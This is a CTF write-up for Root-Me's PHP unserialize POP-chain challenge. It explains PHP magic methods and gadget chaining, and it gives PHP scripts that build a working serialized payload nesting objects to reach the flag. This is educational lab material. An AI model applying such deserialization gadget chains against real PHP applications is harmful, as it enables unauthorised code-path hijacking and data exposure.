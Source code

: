 ```yaml
---
title: "Exploiting PHP Unserialize POP Chains | Rootme"
date: 2024-12-20
categories: [Web Challenges, PHP - Unserialize Pop Chain]
tags: [web, CTF] 
---
```

## Introduction
[PHP - Unserialize Pop Chain](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)  is a very nice web challenge designed to understand the concept of **php pop chaining** in the deserialization process.

As we know that [serialization](https://hazelcast.com/foundations/distributed-computing/serialization/) is the process of converting a data object or a combination of code into a series of bytes, preserving the object's state in an easily transmittable form. Deserialization is the reverse operation of serialization.

## What is the Magic Methods?
[Magic methods](https://www.php.net/manual/en/language.oop5.magic.php) are special methods which override PHP's default's action when certain actions are performed on an object. All methods names starting with __ are reserved by PHP.

One of the most popular magic methods is `__construct()` which is called when the object created. 

![IMG1](https://github.com/user-attachments/assets/5b91a228-bcdd-4b05-b29a-095970437807)

## What is POP chain? 
In normal scenario of exploiting insecure deserialization vulnerability, an attacker controls a serialized object that is passed into `unserialize()`. This will then allow her the opportunity to hijack the execution flow of the application, by controlling the values passed into magic methods.

The problem is: What if the declared magic methods does not contain any usefull code to perform my attack?
Now the exploitation of unsafe deserialization is useless, right?

Unfortunately, if the magic method themselves are not exploitable, an attacker could still control the execution flow using something called POP chains.

POP stands for `Property Oriented Programming` which means that the attacker can control all of the properties of the deserialized object. POP chains work by chaining code "gadgets" together to achieve the attacker’s ultimate goal. These "gadgets" are code snippets borrowed from the codebase that the attacker uses to further her goal.

## Challenge source code analysis

![IMG2](https://github.com/user-attachments/assets/64700220-7dbe-4aa9-a1fc-05d71edc0787)

The script defines two PHP classes which are `GetMessage` and `WakyWaky`.

1) GetMessage class:
  - Constructor `__construct`: Initializes the object with the `receive` parameter. If the value is "HelloBooooooy", the  script terminates with a message.
  - `__toString` Method: Returns the value of the receive property as a string.
  - Destructor `__destruct`: Validates the receive property. If it’s not "HelloBooooooy", the script terminates. Otherwise, if `$getflag` is true, it includes a `flag.php` file and reveals the flag.

2) WakyWaky class:
  - `__wakeup` Method: Executes when the object is unserialized, echoing the msg property.
  - `__toString` Method: Sets `$getflag` to true and creates a new GetMessage object, returning its receive value.

3) If a data parameter is provided via a POST request, it’s unserialized.

## Spotting the bug 
According to [php documentation](https://www.php.net/manual/en/language.oop5.magic.php) this magic methods works in php as follows:
- `__construct()`: Called when an object is created.
- `__destruct()`: Called when an object is deleted.
- `__wakeup()`: Called when an object is unserialized.
- `__toString()`: Called when an object is converted to a string.

Our goal is to read the flag and to do that we need to set the value of the getflag to true. We cannot directly create a serialized object from the `GetMessage` class because the constructor takes a parameter and checks if its value is equal to "HelloBooooooy". If it is, the script will terminate immediately, and the `__destruct()` method will not be called. On the other hand, if we change the value from "HelloBooooooy" to "Hello", the constructor will save it in the `receive` property, and the `__destruct()` method will be called. However, when it checks the value, the script will terminate again using the `die()` function. Both approaches will fail to read the flag.

I generate this script to create a serialized data for testing: 
```php
<?php

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}
$obj = new GetMessage("Hello");
// O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}
echo serialize($obj);
```
Trying: `O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}`
![IMG3](https://github.com/user-attachments/assets/44fa326a-c5f9-487a-bfd4-a6a12b764318)

Now, our entry point is the WakyWaky class to set the value of getflag to true. If I create a serialized object from this class and send it to the web app, it will unserialize the object and automatically call the `__wakeup()` method, which echoes the msg property of the object.

What if we could now modify the `msg` property to control the execution flow of the code and call the `__toString()` method?

## Chaining of methods and Exploitation
We can create an object using the `WakyWaky` class, where the value of the `msg` property is an object of the same class. The only way to make the code call the `__toString()` method is to make the msg property of this object another object from the same class. This is because the `WakyWaky` class echoes the `msg`, and `__toString()` is called when the object is treated as a string.

Working of `__toString()`:

![IMG4](https://github.com/user-attachments/assets/cd4488d6-1a4e-49cd-8b22-cd5b37887e72)

Let's try to create the payload: 

```php
<?php 

class WakyWaky {
    public $msg;

    public function __construct($msg) {
        $this->msg = $msg;
    }
}

$Innerobj = new WakyWaky("Hello");  
$OuterObj = new WakyWaky($Innerobj);

// O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";s:5:"Hello";}}
echo serialize($OuterObj); 
```
![IMG5](https://github.com/user-attachments/assets/11ebffe1-3aa9-4feb-9a9e-06f0d0d894d8)

That's great! The `__toString()` method is called to modify the value of getflag and created an object from the `GetMessage` class with the msg property of the inner object, which is "Hello." The constructor saves the word "Hello" in the `receive` property while executing the else statement. Then, the destructor method is called, triggering the condition that the receive value is not equal to "HelloBooooooy," and it prints "[FRIEND]: Hm... you don't seem to be the friend I was waiting for."

Now, we need to find a way to bypass these if conditions. As I mentioned before, changing the value of receive will not solve the challenge. The only way to solve it is to ensure that the input passed to the constructor is an object of the `GetMessage` class. The two conditions in the constructor and destructor methods will fail to compare between an object and a string. Strict comparison checks that both variables have the same type and the same value.

The Final Exploit: 

```php
<?php

$getflag = false;

class GetMessage {
    public $receive;

    public function __construct() {
        $this->receive = "HelloBooooooy";
    }
}

class WakyWaky {
    public $msg;

    public function __construct($msg) {
        $this->msg = $msg;
    }
}

$GetMessage_obj = new GetMessage();  
$serializedGetMessage_obj = serialize($GetMessage_obj);  

$InnerObj = new WakyWaky($GetMessage_obj);  
$serializedInnerObj = serialize($InnerObj);  

$OuterObj = new WakyWaky($InnerObj);  
// O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
echo serialize($OuterObj); 
```

Finally, now we can read the flag:  

![IMG6](https://github.com/user-attachments/assets/b2279bb1-26e1-440f-a08b-2b8365575bf4)

Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
